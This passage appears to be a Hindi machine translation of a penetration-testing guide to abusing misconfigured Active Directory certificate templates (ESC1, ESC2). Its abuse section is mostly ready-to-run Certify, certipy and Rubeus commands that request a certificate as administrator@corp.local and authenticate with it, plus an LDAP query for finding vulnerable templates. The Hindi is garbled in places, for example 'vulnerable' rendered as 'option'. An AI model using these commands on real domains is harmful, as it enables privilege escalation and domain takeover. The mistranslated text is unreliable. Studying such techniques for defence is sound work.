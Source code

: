 इसे ध्यान में रखा गया है कि इस विकल्प के साथ प्रमाणपत्र बनाने पर चेतावनी दी जाती है, जो एक मौजूदा प्रमाणपत्र टेम्पलेट (जैसे `WebServer` टेम्पलेट, जिसमें `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` सक्षम है) की तरह नहीं होता है, और फिर उसे डुप्लिकेट किया जाता है और फिर संशोधित किया जाता है एक प्रमाणीकरण OID शामिल करने के लिए।

### दुरुपयोग

**विकल्प प्रमाणपत्र टेम्पलेट्स को खोजने** के लिए आप निम्नलिखित को चला सकते हैं:
```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128
```
इस कमजोरी का दुरुपयोग करके एडमिनिस्ट्रेटर की भूमिका अभिमानित करने के लिए निम्नलिखित को चलाया जा सकता है:
```bash
Certify.exe request /ca:dc.domain.local-DC-CA /template:VulnTemplate /altname:localadmin
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'ESC1' -upn 'administrator@corp.local'
```
फिर आप उत्पन्न **प्रमाणपत्र को `.pfx`** प्रारूप में परिवर्तित कर सकते हैं और इसका उपयोग करके **Rubeus या certipy का उपयोग करके प्रमाणीकरण** कर सकते हैं:
```bash
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.19.100
```
Windows बाइनरी "Certreq.exe" और "Certutil.exe" का उपयोग PFX उत्पन्न करने के लिए किया जा सकता है: https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee

AD Forest के कॉन्फ़िगरेशन स्कीमा में प्रमाणपत्र टेम्प्लेट की जाँच, विशेष रूप से उनमें से जो मंजूरी या हस्ताक्षर की आवश्यकता नहीं है, क्लाइंट प्रमाणीकरण या स्मार्ट कार्ड लॉगऑन EKU वाले होते हैं, और `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` फ्लैग सक्षम हो, तो निम्नलिखित LDAP क्वेरी चलाकर किया जा सकता है:
```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollmentflag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-rasignature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4)(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))(mspkicertificate-name-flag:1.2.840.113556.1.4.804:=1))
```
## गलत रूप से कॉन्फ़िगर किए गए प्रमाणपत्र टेम्प्लेट - ESC2

### स्पष्टीकरण

दूसरे दुरुपयोग स्थिति में पहले वाले का एक रूपांतरण है:

1. उच्च-अधिकारित उपयोगकर्ताओं को उद्यम CA द्वारा पंजीकरण अधिकार प्रदान किए जाते हैं।
2. प्रबंधक स्वीकृति की आवश्यकता निषेधित की जाती है।
3. अधिकृत हस्ताक्षरों की आवश्यकता छूट दी जाती है।
4. प्रमाणपत्र टेम्पलेट पर अत्यधिक अनुमतिपूर्ण सुरक्षा विवरणकारी, जो प्रमाणपत्र पंजीकरण अधिकार उच्च-अधिकारित उपयोगकर्ताओं को प्रदान करता है।
5. **प्रमाणपत्र टेम्पलेट को किसी भी उद्देश्य EKU या कोई EKU शामिल किया गया है।**

**किसी भी उद्देश्य EKU** एक प्रमाणपत्र को प्राप्त करने की अनुमति देता है एक हमलावर द्वारा **किसी भी उद्देश्य**, सहित क्लाइंट प्रमाणीकरण, सर्वर प्रमाणीकरण, कोड साइनिंग, आदि। इसी **तकनीक का उपयोग ESC3 के लिए** इस स्थिति का शोषण करने के लिए किया जा सकता है।
